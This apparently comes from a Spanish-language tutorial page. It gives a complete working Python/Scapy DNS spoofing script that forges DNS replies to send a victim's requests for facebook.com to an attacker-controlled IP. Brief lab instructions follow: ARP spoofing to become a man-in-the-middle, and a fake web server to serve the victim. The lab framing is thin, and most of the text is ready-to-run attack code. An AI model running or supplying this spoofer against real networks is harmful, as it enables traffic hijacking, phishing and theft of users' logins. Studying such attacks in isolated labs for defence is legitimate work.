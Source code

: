 
### 📜 Ejemplo completo: `dns_spoofer.py`

```python
from scapy.all import *
import sys

# Dominio objetivo y la IP falsa que quieres que apunte
target_domain = "facebook.com"
fake_ip = "192.168.1.100"  # Debe ser la IP de tu máquina atacante o de un servidor falso

def spoof_dns(pkt):
    if pkt.haslayer(DNS) and pkt.getlayer(DNS).qr == 0:  # Es una consulta
        qname = pkt[DNSQR].qname.decode()
        if target_domain in qname:
            print(f"[+] DNS request for {qname} - Spoofing response!")

            # Crear respuesta falsa
            spoofed_pkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)/ \
                          UDP(dport=pkt[UDP].sport, sport=53)/ \
                          DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                              an=DNSRR(rrname=qname, ttl=10, rdata=fake_ip))

            send(spoofed_pkt, verbose=0)

# Escuchar paquetes DNS de la red
print("[*] Escuchando solicitudes DNS...")
sniff(filter="udp port 53", prn=spoof_dns)
```

---

### 🧪 ¿Cómo probarlo?

#### 🔧 Entorno ideal (laboratorio seguro):

1. Dos máquinas virtuales:

   - Kali Linux (atacante)
   - Ubuntu o Windows (víctima)

2. Asegúrate que están en la misma red (modo NAT o red interna).

3. Haz **ARP Spoofing** para situarte como MITM.

4. En la víctima, abre un navegador y entra a:

```
http://facebook.com
```

5. Si todo está bien:

   - El navegador irá a la IP falsa (ej. `192.168.1.100`).
   - Puedes tener ahí un **servidor web falso** con HTML simulado (ej. `python3 -m http.server 80`).

---